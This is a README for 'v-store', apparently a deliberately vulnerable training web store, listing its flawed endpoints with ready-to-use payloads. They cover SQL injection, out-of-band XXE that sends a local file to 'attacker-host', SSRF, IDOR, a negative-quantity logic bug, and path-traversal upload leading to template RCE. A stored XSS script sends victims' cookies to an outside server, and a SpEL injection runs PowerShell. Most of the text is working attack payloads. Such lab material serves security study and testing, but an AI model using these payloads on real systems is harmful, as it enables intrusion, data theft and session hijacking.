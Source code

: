 # v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5

### 4. GET "/infoUserVuln"
- Bug: IDOR
- params: id
- payload: id=4

### 5. POST "/upAVTVuln"
- Bug: upload file avt tùy ý dẫn tới RCE, CSS
- params: image
- Payload: 
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC </h1>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload RCE: 
+ Upfile:
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC RCE</h1>
<p th:text="${T(java.lang.Runtime).getRuntime().exec('calc')}"/>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload CSS:
```
POST /upAVTVuln HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

------WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="css.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC CSS</h1>
<script>
            var cookie = document.cookie;
            let xhr = new XMLHttpRequest();
            let url = "http://sonnguy3n.info:8888/?a=";					
            xhr.open("GET", url+cookie, true);						            
            xhr.send();
</script>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
+ Link CSS: GET "/getImage?name=css.html"


### 6. POST "/upAVTUrlVuln"
- Bug: SSRF
- Params: url
- Payload: 
- 
"http://host.com/pic.png"

"file:c:/C:/Windows/system.ini"

### 7. GET "/getImage"
- Bug: get file tùy ý
- Params: name
- payload: "../../templates/home.html"
   
### 8. GET
- Bug: Template Injection
- Payload:
```
T(org.apache.commons.io.IOUtils).toString(
    T(java.lang.Runtime).getRuntime().exec('powershell ls').getInputStream(),
    T(java.nio.charset.StandardCharsets).UTF_8.name()
    )
```
